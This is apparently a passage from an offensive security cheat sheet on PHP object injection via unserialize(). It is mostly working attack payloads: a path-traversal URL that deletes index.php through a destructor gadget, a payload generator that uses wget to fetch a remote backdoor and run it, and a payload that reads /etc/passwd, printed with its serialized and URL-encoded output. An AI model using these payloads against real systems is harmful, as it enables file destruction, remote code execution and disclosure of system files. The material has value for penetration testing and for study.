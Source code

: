 Anatomy of a PHP Object:  
![PHP Object Unserialized](Resources/PHP_Unserialize.png)

Example:  
![PHP Object Unserialized](Resources/PHP_Unserialize2.png)

**Exploitation**

Example: Deleting an arbitrary file via. Path Traversal
```PHP
class Example1 {
   public $cache_file;

   function __construct() {
      // some PHP code...
   }

   function __destruct() {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_GET['data']);
// some PHP code...

// PAYLOAD //
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

Example: Reverse Shell
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}
// GENERATE ENCODED PAYLOAD
echo urlencode(serialize(new PHPObjectInjection));
```

Example: Local File Disclosure
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```
